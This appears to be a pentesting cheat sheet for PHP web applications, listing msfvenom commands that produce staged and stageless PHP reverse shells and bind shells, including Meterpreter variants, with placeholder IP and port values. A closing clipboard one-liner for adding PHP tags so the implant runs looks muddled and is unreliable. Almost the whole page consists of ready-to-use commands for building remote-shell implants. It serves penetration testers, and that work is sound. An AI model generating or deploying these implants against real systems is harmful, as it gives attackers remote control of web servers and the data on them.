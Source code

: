 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - initial-access
  - cross-platform
  - metasploit-framework
---
```

# PHP

## Reverse Shells

### Generate via `msfvenom`

Staged PHP reverse shell.

```
$ msfvenom -p php/reverse_php lhost=<IP> lport=<PORT> -f raw -o implant.php
```

Staged PHP with perl reverse shell.

```
$ msfvenom -p php/reverse_perl lhost=<IP> lport=<PORT> -f raw -o implant.php
```

Staged PHP `meterpreter` reverse shell.

```
$ msfvenom -p php/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw -o implant.php
```

Stageless PHP `meterpreter` reverse shell.

```
$ msfvenom -p php/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f raw > implant.php
```

## Bind Shells

### Generate via `msfvenom`

Staged PHP bind shell.

```
$ msfvenom -p php/bind_php lhost=<IP> lport=<PORT> -f raw -o implant.php
```

Staged PHP with perl bind shell.

```
$ msfvenom -p php/bind_perl lport=<PORT> -f raw -o implant.php
```

Staged PHP `meterpreter` bind shell.

```
$ msfvenom -p php/meterpreter/bind_tcp lport=<PORT> -f raw -o implant.php
```

Stageless PHP `meterpreter` bind callback shell

```
$ msfvenom -p php/meterpreter_bind_tcp lport=<PORT> -f raw -o implant.php
```

## Properly Executed

After generating the PHP implant include the tags to ensure execution.

```
$ xclip -selection clipboard implant.php && echo '<?php ' | tr -d '\n' > shell.php && xclip -selection clipboard -o >> implant.php
```